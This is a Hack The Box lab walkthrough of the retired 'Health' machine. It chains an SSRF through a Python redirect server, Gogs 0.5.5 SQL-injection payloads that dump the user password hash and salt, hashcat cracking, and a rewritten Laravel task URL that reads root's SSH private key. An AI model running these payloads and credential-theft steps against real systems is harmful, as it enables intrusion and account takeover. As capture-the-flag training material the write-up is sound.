

# Box Info

|     |       |
| --- | ----:|
| Name | [Health ](https://www.hackthebox.com/home/machines/profile/439)|
| Release Date | 22 August 2022 |
| Retire Date | 07 January 2023 |
| OS | Linux {: width="32" height="32" } Windows {: width="32" height="32" } |
| Difficulty |  |
| Difficulty Chart |  |
| Radar Graph | {: width="330" height="250"} |
| Creator | [](https://www.hackthebox.eu/home/users/profile/476556) |
| Name | <https://www.hackthebox.com/home/machines/profile/491> |


# Methodology
Nmap scan
```shell
sudo nmap -sC -sV -oN scans/default-scan.nmap $target
```

## Port 80
Laravel 
Ubuntu 
Apache HTTP Server 2.4.29
php

## Web Application
health.htb
The web application is a health checking application for web servers. It will go the the given url and and check if there is a response then the service will send a JSON document with the contents of that URL. 

This could allow for an Server Side Request Forgery (SSRF attack). It may be possible to use this server to contact a service that cannot be reached from our perspective on the network. A target we can test this on would be the filtered port 3000 on the target system. The filtered status suggest that there may be something listening on that port but we are being blocked by a firewall.

The web application does not all you to add the target system as the monitored URL. Even if we try to trap the request and modify the request which suggests the check is being done server side. 


To get around this restriction we can try to redirect to the server that you are trying to access. Our server will send a redirect to an internal server. The vulnerable server will then make a new request to the redirected location and return the results of that internal service. 


## Setup a Redirect with Python3

```python
#!/usr/bin/env python3

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("""
Usage: {} <port_number> <url>
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

The above code comes from: https://stackoverflow.com/a/47084250

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000"
```

Start a netcat listener to listen for the response:
```shell
nc -nvlp 1338
```

Fill out the form on the page to monitor your redirect on port 80 and the webhook to be your netcat listener then click Test.



We find out that it is a Gogs version 0.5.5 server listening on that port. This is a git server similar to GitHub or GitLab but written in GoLang.


## Exploiting Gogs

The internal service running on 3000 is Gogs (a git server). This version (0.5.5.1) is vulnerable to SQLi https://www.exploit-db.com/exploits/35238.

We could look at the POC in the exploitdb write-up, but I want to explore this SQLi a little on my own. All I'm going to do is look at the endpoint and variable that is vulnerable and go from there. 

It is easiest if we make the exploit as easy as possible so I will set up a local install of the Gogs v0.5.5
After playing with the docker installation and not being able to get it up and running, I asked NullB1te on discord how he got his up and running. He went the smart route and pulled the package from the releases section GitHub. (Thanks NullB1te for reminding me that sometimes you should just pull from the releases section and make life easier.)

Download and unzip the v0.5.5 of Gogs then run the executable.
Set up the environment with SQLite and an admin of your choosing. 
Once you have all that set up, you can start testing the exploits on your local instance to see if they even work against the target. 

First, we need to verify that it is vulnerable with a simple test.

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/repos/search?q=1')/**/or/**/1=1/**/--"
```

Now that we know we have SQLi, we can start working on how many fields we need.
```shell
curl --silent "http://localhost:3000/api/v1/users/search?q=man716')/**/Order/**/By/**/100/**/--" | jq
{
  "error": "1st ORDER BY term out of range - should be between 1 and 27",
  "ok": false
}
```

Fortunately, the error code gives us the answer right away.

Next, we need to figure out which one of the 27 we can control.

```shell
curl --silent "http://localhost:3000/api/v1/users/search?q=man716')/**/union/**/all/**/select/**/'1','2','3','4','5','6','7','8','9','10','11','12','13','14','15','16','17','18','19','20','21','22','23','24','25','26','27'/**/--" | jq
{
  "data": [
    {
      "username": "man716",
      "avatar": "//1.gravatar.com/avatar/4c6fb260e2dd60fa4694a02b84e6fb84"
    },
    {
      "username": "3",
      "avatar": "//1.gravatar.com/avatar/15"
    }
  ],
  "ok": true
}
```

Looks like the third one in is our target.


Now let's start our enumeration directly on our target

To catch the response I decide to play around with ChtGPT and asked to create a python 3 script for me
> write a python3 http server that will check if the response_body has JSON and if it does parse and output the JSON in pretty format to the console

After a little modification I came up with:

```python
import json
from http.server import HTTPServer, BaseHTTPRequestHandler

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        print("received a post request")
        # Read the request body
        content_length = int(self.headers['Content-Length'])
        request_body = self.rfile.read(content_length)

        # Parse the request body as JSON
        try:
            data = json.loads(request_body)
        except ValueError:
            self.send_response(400)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(b'Invalid JSON')
            return

        # Output the parsed JSON to the console
        print(json.dumps(data, indent=4, sort_keys=True))

        # Send a response to the client
        self.send_response(200)
        self.send_header('Content-Type', 'text/plain')
        self.end_headers()
        self.wfile.write(b'Request received')

httpd = HTTPServer(('0.0.0.0', 1338), RequestHandler)
httpd.serve_forever()
```

```shell
python3 ./server.py
```

Let's attempt to get the version of the database.

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/@@version,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```
We get an error back saying that the site is not up.

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/version()),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```
We get an error back saying the site is not up.

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/sqlite_version()),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```
Success we see that the sqlite version is 3.8.5


Now that we know what database it is, we can get the tables that are available.

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(SELECT/**/tbl_name/**/FROM/**/sqlite_master),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```


Get the columns of the table

```shell
"http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(SELECT/**/sql/**/FROM/**/sqlite_master/**/WHERE/**/type!='meta'/**/AND/**/sql/**/NOT/**/NULL/**/AND/**/name/**/='user'),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```


*Looks like I did not mark all of the colums but I got the two that we need most. Can you find the ones I missed?*

Let's get the password:

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/passwd/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--" 
```


Let's grab the salt:

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/salt/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```


I have no idea what algorithm is used to hash the password. The good news is that this is an open source application so we can dig through the code if no one else has.
Lucky for us again someone else dug through the application to find where the password is hashed.
https://blog.stigok.com/2017/03/06/lost-password-to-gogs-git-server-docker-instance.html
This blog post points out that the password is hashed as follows:
```go
newPasswd := pbkdf2.Key([]byte(u.Passwd), []byte(u.Salt), 10000, 50, sha256.New)
```
Since I have no idea what this even means, I had to dig into the module and function.
https://pkg.go.dev/golang.org/x/crypto/pbkdf2#pkg-functions
The key function is defined as below:
```go
func Key(password, salt []byte, iter, keyLen int, h func() hash.Hash) []byte
```
So the function takes a password, byte array for salt, the iterations the algorithm will go through, they length of the output key in bytes, and the PRN (pseudo random number) function. 

So this means that Gogs uses PBKDF2 with SHA256 PRN with 10000 iterations and a length of 50 bytes. At least, that is how I understand it. 
Since the output of the function is a byte array, the hash is probably stored in hex. 

https://hashcat.net/wiki/doku.php?id=example_hashes
Digging around to figure out how to crack this I came around to the hashcat algorithm PBKDF2-HMAC-SHA256  (10900)
with the example hash: `sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt`
So it looks like the salt is in base64 and the password may be as well because that is definitely not hex.

The question is how do we get hex back to bytes then into base64?
This where I get to play with a tool I do not use much at all `xxd`.
Using `xxd -r`  we can convert the hex into binary then we need to output it back out int a hex that we convert to base64

```shell
echo '1c84...b55655d' | xxd -r -ps | base64
HIT2z...V0= > pass
```

base64 the salt
```shell
echo $salt | base64 > salt
```

create the hashcat friendly hash

```
echo "sha256:10000:$(cat salt):$(cat pass)" > hash
```

crack the password
```shell
hashcat -m 10900 ./hash /usr/share/wordlists/rockyou.txt
```
*This will take awhile.*

Once you have the password cracked, you can login to ssh
```shell
ssh susanne@10.10.11.176
```

## Privilege Escalation
Moving on up to root takes a little investigative work but is not all that difficult. 

After the normal enumeration, there really was not anything too interesting to work on so I decided to see if there were any interesting tasks running occasionally. This is usually indicative of another user who has a cron (or other scheduler) job running. The easiest way to monitor these tasks is to use [pspy](https://github.com/DominicBreuker/pspy). Once that is running, there is a command that may stand out: 


That is interesting but I have no clue as to what it is doing. But after some googling around and looking into Laravel, this is basically running whatever code is in the Laravel web application located /var/www/html/app/Console/Kernel.php and the function `schedule`. We can take a look and see what is happening with that code and see that it is getting all of the tasks from the database and then using `HealthChecker`'s `check` function.  After digging around a bit we find that function /var/www/html/app/Http/Controllers/HealthChecker.php. We should also note that it is being rand as `root`. 

The interesting part is that it is using @file_get_contents which could allow us to get a file of our choosing from the system.


Unfortunately, the application blocks us from just getting a file and instead gives us an error.


However, now that we are on the system, we may  be able to find database creds and change the monitoredURL there?

Back to digging around...
Learning a bit more about Laravel, it uses a .env file to load environment variables to help with configuration of the application. The .env file is supposed to reside at the root of the application. After looking there and opening the file up we get mysql creds.


```shell
mysql -ularavel -p
```
Log in and see what we can see.
```shell
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| laravel            |
+--------------------+
2 rows in set (0.00 sec)
```

```shell
mysql> use laravel;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

```shell
mysql> show tables;
+------------------------+
| Tables_in_laravel      |
+------------------------+
| failed_jobs            |
| migrations             |
| password_resets        |
| personal_access_tokens |
| tasks                  |
| users                  |
+------------------------+
6 rows in set (0.00 sec)
```

With this, I assume that all tasks are getting put under "tasks". 
```shell
mysql> select * from tasks;
Empty set (0.00 sec)
```

There are no tasks at the moment. 

Since we are already on the system, what file should we grab? Let's look and see what the ssh configuration allows.

```shell
cat /etc/ssh/sshd_config | grep -v '^[#]' | grep .
ChallengeResponseAuthentication no
UsePAM yes
PermitRootLogin yes
X11Forwarding yes
PrintMotd no
AcceptEnv LANG LC_*
Subsystem sftp  /usr/lib/openssh/sftp-server
PasswordAuthentication yes
```

Awesome root is allowed to log in using ssh. Since we do not have the password for root, we can hope that they have a ssh key. The most common of which is id_rsa. There are other common ones as well such as id_dsa, id_ecdsa, and id_ed25519. 

With that being said let's change the task to see if id_rsa exists for the root user.

```shell
update tasks set monitoredUrl='file:///root/.ssh/id_rsa';
```
*Be careful with this command because it will update all of the tasks with the new monitoredUrl. Changing all of them is not a good idea in a real environment. However, we are running against a clock that deletes these tasks every minute so we are going to use the quick and dirty route for this.*

We will use the file filter to get the file from the local machine instead of using the expected http filter to get a webpage. 

It worked:


Copy and paste it into a file. The easiest way that I was able to do it was to use:
```shell
echo -n '<RSA_KEY>' > key
```
This will strip the new line characters.

Change the permissions to 600 and log in as root.
```shell
chmod 600 ./key

ssh -i ./key root@10.10.11.176
```


This was a really fun box. I hope you enjoyed the walkthrough. If you have any questions or corrections, feel free to hit me up on Discord: Man715_#5234. 